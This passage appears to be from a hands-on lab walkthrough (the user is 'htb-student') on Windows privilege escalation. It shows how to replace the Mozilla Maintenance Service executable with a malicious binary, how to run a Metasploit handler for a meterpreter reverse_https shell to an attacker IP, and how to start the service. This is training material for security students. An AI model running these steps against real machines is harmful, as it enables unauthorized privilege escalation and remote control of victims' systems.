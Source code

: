 **Replacing File with Malicious Binary**

We can overwrite the **maintenanceservice.exe** binary in **c:\Program Files (x86)\Mozilla Maintenance Service** with a good working copy of our malicious binary created earlier before proceeding to start the service. In this example, we downloaded two copies of the malicious binary to **C:\Users\htb-student\Desktop**, **maintenanceservice.exe** and **maintenanceservice2.exe**. Let's move the good copy that was not corrupted by the exploit **maintenanceservice2.exe** to the Program Files directory, making sure to rename the file properly and remove the **2** or the service won't start. The **copy** command will only work from a cmd.exe window, not a PowerShell console.

```shell
copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

**Metasploit Resource Script**

```shell
sudo msfconsole -r handler.rc

use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <our_ip>
set LPORT 8443
exploit
```

**Starting the Service**

```shell
net start MozillaMaintenance
```